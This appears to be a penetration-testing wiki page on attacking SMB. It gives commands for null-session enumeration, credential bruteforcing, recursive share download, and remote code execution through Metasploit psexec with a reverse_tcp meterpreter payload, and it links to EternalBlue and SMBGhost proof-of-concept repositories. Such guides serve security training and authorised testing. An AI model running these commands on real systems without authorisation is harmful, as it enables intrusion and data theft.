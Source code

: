 # SMB

## Theory

SMB \(Server Message Block\) is a protocol running on port 445/tcp. It is used to share access to files, printers and serial ports on a network

In 1996 Microsoft releases a customized SMB they call CIFS \(Common Internet File System\). CIFS can sometimes be referred to as SMB1 \(or SMBv1, SMB 1.0\). In 2006, Microsoft introduced SMB2 \(also referred to as SMB 2.0\), a new version of the CIFS protocol. In 2012, Microsoft released SMB3 \(a.k.a. SMB 3.0\). As of 2020, most systems use SMB 2.0 or above.

In short, SMB is the protocol, CIFS is an old dialect of SMB, and Samba is the Linux/UNIX-like implementation of the SMB protocol \(see [this](http://thewindowsupdate.com/2020/02/21/smb-and-null-sessions-why-your-pen-test-is-probably-wrong/)\).

## Practice

### Null session

The null session, if not disabled, allows for anonymous/guest access to a network resource when using no credentials

{% tabs %}
{% tab title="UNIX-like" %}
Tools like [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) \(C\) and [smbmap](https://github.com/ShawnDEvans/smbmap) \(Python\) can be used to access SMB shares with null sessions. Null credentials do not have to be explicitly set in this case.

```bash
# List shares
smbclient --list //$IP

# List shares (implicit null creds)
smbclient --no-pass --list //$IP

# List shares (explicit null creds)
smbclient --user ''%'' -L //$IP

# Open an interactive session to operate on a specific share
smbclient //$IP/$SHARE_NAME
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\) can be used to test for null session on multiple hosts.

```bash
crackmapexec smb $TARGETS -u '' -p '' --shares
```
{% endtab %}

{% tab title="Windows" %}
The `net` cmdlet can be used to natively interact with SMB shares and explicitly set null credentials.

{% hint style="warning" %}
If null credentials are not explicitly set, Windows will natively use implicit credentials \(e.g. Kerberos tickets in cache, logged on user creds or computer account\)
{% endhint %}

```bash
net use \\$IP\$SHARE_NAME '' /user:''
```
{% endtab %}
{% endtabs %}

### Bruteforce

Tools like [hydra](https://github.com/vanhauser-thc/thc-hydra), [metasploit](https://github.com/rapid7/metasploit-framework) or [nmap](https://github.com/nmap/nmap) can be used to operate authentication bruteforce attacks.

{% hint style="danger" %}
In addition to not being stealthy at all, and depending on the password policy rules in place, bruteforcing authentication could lead to accounts getting locked out when reaching maximum allowed tries.
{% endhint %}

```bash
# hydra
hydra -L usernames.txt -P passwords.txt $IP -V -f smb

# Metasploit module to use
msf5 > use auxiliary/scanner/smb/smb_login

# nmap
nmap --script smb-brute -p 445 $IP
```

Valid credentials can then be used to list accessible shares and enumerate the contents of the shares the account has access to.

### Data exfiltration

Tools like [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) and [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) can be used to recursively download a SMB share's content.

```bash
# In an smbclient interactive session
recurse ON
prompt OFF
mget *

# With crackmapexec
crackmapexec smb $TARGETS -u $USERNAME -p $PASSWORD -M spider_plus -o READ_ONLY=False
```

### 🛠️ Authenticated RCE

{% tabs %}

PSExec exploit module runs on the same principle as the PSExec Windows utility. The exploit embeds a payload into an executable, upload it into the Admin$ share. It then calls the Service Control Manager to approximately start a new rundll32.exe process that will execute our malicious executable.

```text
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > show options
Module options:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.57.131   yes       The target address
   RPORT    445              yes       Set the SMB service port
   SMBPass                   no        The password for the specified username
   SMBUser  Administrator    yes       The username to authenticate as
```

{% hint style="warning" %}
Privileged user credentials required.
{% endhint %}

{% hint style="warning" %}
File uploading, creating, starting, stopping, deletion of services makes it really noisy.
{% endhint %}

**Smbexec** works like **Psexec**, but instead of trying to execute an uploaded executable inside the share, it will try to use directly the binaries _cmd.exe/powershell.exe_. The exploit create an arbitrary service with the _Service File Name_ attribute set to a command string to execute. It echoes the command to be executed to a .bat file, execute it and delete it.

The exploit then get the output of the command via Smb and displays the content. For every command, a new service is created.

{% embed url="https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py" caption="Exploit" %}

{% hint style="info" %}
**%COMSPEC%** is the environment variable that generaly points to the command line interpreter. \(_cmd.exe, powershell.exe_...\)
{% endhint %}

{% hint style="info" %}
The purpose of using **/Q** option of cmd is to stop displaying output. \(je crois que ça veut dire /quiet à vérifier\)
{% endhint %}

{% hint style="warning" %}
Prioritize using **Smbexec** when you detect a strong AV, `cmd.exe`is a trusted component of the operating system.
{% endhint %}

{% hint style="warning" %}
Privileged user credentials required.
{% endhint %}

Windows Management Instrumentation is a subsystem of PowerShell that gives high privileged access to system monitoring tools.

Wmiexec has a similar approach to smbexec but it is executing commands through WMI.

{% embed url="https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py" caption="Exploit" %}

DCOM is a way for a computer to run a program over the network on a different computer as if the program was running locally.

Dcomexec has a similar approach to psexec but it is executing commands through DCOM.

{% embed url="https://github.com/SecureAuthCorp/impacket/blob/master/examples/dcomexec.py" caption="Exploit" %}

Crackmapexec is a swiss army that has featured a lot of the command execution methods mentionned precedently.

One of its feature is to automate the process of executing code via SMB by switching between methods when one fails.

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" caption="" %}

### 🛠️ Unauthenticated RCE

{% tabs %}

Eternalblue is a flaw that allows remote attackers to execute arbitrary code on a target system by sending specially crafted messages to the **SMBv1** server. Other related exploits were labelled as`Eternalchampion`, `Eternalromance` and `Eternalsynergy.`

{% embed url="https://github.com/worawit/MS17-010" caption="POC" %}

Smbghost is a bug occuring in the decompression mechanism of client message to a **SMBv3.11** server. This bug leads remotely and without any authentication to a **BSOD or an RCE** on the target.

{% embed url="https://blog.zecops.com/vulnerabilities/exploiting-smbghost-cve-2020-0796-for-a-local-privilege-escalation-writeup-and-poc/" caption="Walktrough" %}

{% embed url="https://github.com/ZecOps/CVE-2020-0796-RCE-POC" caption="POC" %}

Smbleed allows to **leak kernel** memory remotely, it is also occuring in the same decompression mechanism as smbghost.

In order for the target to be vulnerable, it must have the **SMBv3.1.1** implementation running and the compression function enabled, which is on by **default**.

{% embed url="https://blog.zecops.com/vulnerabilities/smbleedingghost-writeup-chaining-smbleed-cve-2020-1206-with-smbghost/" caption="Walktrough" %}

{% embed url="https://github.com/ZecOps/CVE-2020-1206-POC" caption="POC" %}

## References

{% embed url="https://pandorafms.com/blog/what-is-wmi/" caption="" %}

{% embed url="https://book.hacktricks.xyz/pentesting/pentesting-smb" caption="" %}

{% embed url="https://www.varonis.com/blog/dcom-distributed-component-object-model/" caption="" %}

{% embed url="https://www.optiv.com/blog/owning-computers-without-shell-access" caption="" %}

